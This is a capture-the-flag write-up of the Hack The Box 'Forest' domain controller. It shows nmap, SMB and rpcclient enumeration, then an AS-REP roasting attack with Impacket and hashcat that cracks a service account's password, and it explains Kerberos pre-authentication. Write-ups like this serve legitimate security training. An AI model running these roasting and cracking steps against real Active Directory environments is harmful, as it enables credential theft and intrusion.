


# Forest

- [Forest](#forest)
  - [Recon](#recon)
  - [User Compromise](#user-compromise)
    - [Crack the Hash](#crack-the-hash)
    - [Kerberos Pre-auth](#kerberos-pre-auth)
  - [Privilege Escalation](#privilege-escalation)
  - [Root](#root)
  - [Resources](#resources)

## Recon

I started with nmap, and if the box names wasn't enough of a hint, surprise, It's a domain controller.

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ nmap -p- --min-rate=10000 -T5 -o nmap_all forest
```



Next, I tried to enumerate all that is SMB.

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ nmap -p445 forest --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-services.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse
```

The shares were all of the standard Windows/DC shares and I didn't have access to any of them. I was able to get a list of groups and user accounts. 



The user account list contained a few interesting users:

| User                     | Flags                                                                          |
| ------------------------ | ------------------------------------------------------------------------------ |
| HTB\$331000-VK4ADACQNUCA | Password Expired, Account disabled, Password not required, Normal user account |
| HTB\andy                 | Password does not expire, Normal user account                                  |
| HTB\lucinda              | Password does not expire, Normal user account                                  |
| HTB\mark                 | Password does not expire, Normal user account                                  |
| HTB\santi                | Password does not expire, Normal user account                                  |

There were also several mailbox accounts for Exchange. 

But I still don't have anything useful to go off of. Next, I poked around with rpcclient.

```bash
┌──(milt0r㉿kali)-[~/htb/forest/ldap]
└─$ rpcclient -U "" -N 10.10.10.161
```

Here, I get a little different list. It includes **svc-alfresco** and **sebastien**.

```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

Enumerate domain groups, and one of them stands out as interesting:

```bash
rpcclient $> enumdomgroups
group:[Privileged IT Accounts] rid:[0x47d]
```

Examine that group membership and it points me to "Service Accounts" which contains our service account. Seems to be what we're looking for. 

```bash
rpcclient $> querygroupmem 0x47d
        rid:[0x47c] attr:[0x7]
rpcclient $> queryuser 0x47c
result was NT_STATUS_NO_SUCH_USER
rpcclient $> querygroup 0x47c
        Group Name:     Service Accounts
        Description:
        Group Attribute:7
        Num Members:1
rpcclient $> querygroupmem 0x47c
        rid:[0x47b] attr:[0x7]
rpcclient $> queryuser 0x47b
        User Name   :   svc-alfresco
        Full Name   :   svc-alfresco
```

Next, I tried ldapdomaindump and ldeep. ldeep returned nothing, and ldapdomaindump encountered an exception that looks to be a [known issue](https://github.com/dirkjanm/ldapdomaindump/issues/26) with that tool and this box. 


From here I started scrolling through the PayloadsAllTheThings AD Attacks article looking for something useful that didn't require creds. Eventually, I landed on Impacket's **GetNPUsers.py.** If you read the section on that tool (link below), it coincidentally mentions svc-alfresco in the example. 

```bash
┌──(milt0r㉿kali)-[~/htb/forest]
└─$ GetNPUsers.py htb.local/ -dc-ip 10.10.10.161
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2021-10-16 20:10:06.352042  2019-09-23 04:09:47.931194  0x410200
```

Great. 

## User Compromise

Next, I dump the TGT for the service account. 

```
┌──(tom㉿kali)-[~/htb/forest]
└─$ GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Cannot authenticate svc-alfresco, getting its TGT
$krb5asrep$23$svc-alfresco@HTB.LOCAL:e8cc9685bd277e4982cc42f992002af5$95ac8f4ac9f8a0473680e02b32c8675de7817e72e450b97b554970a617121328a6c011f69d59de9017d17eae21324e508f9ec09ecb2bace6c7cf962466704f5e003ea648d9f16dfec11c0f69a3af09254161f4ec6b85bacc6874f29e5d6b155f1bc4ef1b8e93cfe87c687cd182a9e15d80bb6cef6ce0912f584088bb192b0926421d60650d1ed86a47633d7ef3eceabf53820b44aa5174b0f17dbf66a2e28488fd87bedc6fa4b06968556bcbf6684c0e5093f9ea2fd9dd81de5ac3a5aa2fc095e2fc8420f77081cc6ecd9eeb7f68a88692c1d63d98445ba4001ba3c65fc2bf0327d82089120e
```

### Crack the Hash

I like putting my RTX 3080 to use, so I typically run hashcat on Windows. 

```powershell
PS D:\htb\tools\hashcat\hashcat-6.2.1> .\hashcat.exe -m18200 -a0 hash.txt D:\htb\tools\wordlists\rockyou.txt
hashcat (v6.2.1) starting...

$krb5asrep$23$svc-alfresco@HTB.LOCAL:e8cc9685bd277e4982cc42f992002af5$95ac8f4ac9f8a0473680e02b32c8675de7817e72e450b97b554970a617121328a6c011f69d59de9017d17eae21324e508f9ec09ecb2bace6c7cf962466704f5e003ea648d9f16dfec11c0f69a3af09254161f4ec6b85bacc6874f29e5d6b155f1bc4ef1b8e93cfe87c687cd182a9e15d80bb6cef6ce0912f584088bb192b0926421d60650d1ed86a47633d7ef3eceabf53820b44aa5174b0f17dbf66a2e28488fd87bedc6fa4b06968556bcbf6684c0e5093f9ea2fd9dd81de5ac3a5aa2fc095e2fc8420f77081cc6ecd9eeb7f68a88692c1d63d98445ba4001ba3c65fc2bf0327d82089120e:s3rvice
```

**svc-alfresco:s3rvice**

### Kerberos Pre-auth

I recall in my Active Directory days *rarely* seeing applications running on systems in enterprise enviorments that required this to be turned off for accounts. In all of the AD risk assessments I performed over the years, I think I saw just a handfull of environments with pre-auth disabled. Why's it important? 

**TL;DR:** It prevents offline attacks against the TGT. 

When pre-auth is enabled, the Key Distribution Center (KDC) challenges the client to use their password hash to encrypt a timestamp. If the KDC, having a copy of the user's password hash, can decrypt and validate that it's within the acceptable range (default +/- five minutes), it'll respond with the ticket-granting ticket (TGT). The TGT is encrypted with the user's password hash. The client can decrypt the TGT only if it has the password.

If we disable the pre-authentication requirement, the KDC returns the TGT to the caller. This means that any attacker can get the TGT and attempt to crack the password offline, which is what we accomplished here. 

## Privilege Escalation


> **Summary:** Leverage over-permissioned user to escalate privileges and dump NTDS password hashes via Mimikatz DCSync.

## Root

> **Summary:** Use stolen hashes and psexec.py to pass-the-hash and get Administrator shell. 

## Resources

- [PayloadsAllTheThings AD Attacks ](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md)
- [LDAP Filter Ref](https://social.technet.microsoft.com/wiki/contents/articles/5392.active-directory-ldap-syntax-filters.aspx)